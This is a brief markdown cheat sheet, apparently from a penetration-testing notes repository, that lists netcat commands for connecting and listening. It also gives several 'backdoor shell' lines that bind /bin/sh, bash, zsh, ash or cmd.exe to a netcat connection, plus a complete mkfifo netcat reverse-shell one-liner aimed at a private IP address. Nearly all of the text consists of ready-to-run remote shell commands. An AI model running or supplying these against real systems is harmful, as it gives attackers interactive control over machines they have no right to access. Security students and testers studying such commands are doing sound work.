 #exploitation
## Fundamentals:

Connect to a netcat client:
- rlwrap nc [IP Address] [port]

Connect to a netcat Listener:

- rlwrap nc -lvp [Localport]

More info on rlwrap: https://linux.die.net/man/1/rlwrap

## Backdoor Shells: 

Linux: 

- rlwrap nc [Your IP Address] -e /bin/sh 
- rlwrap nc [Your IP Address] -e /bin/bash
- rlwrap nc [Your IP Address] -e /bin/zsh
- rlwrap nc [Your IP Address] -e /bin/ash


Windows: 

- rlwrap nc -lv [localport] -e cmd.exe

Linux netcat reverse shell: 

- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f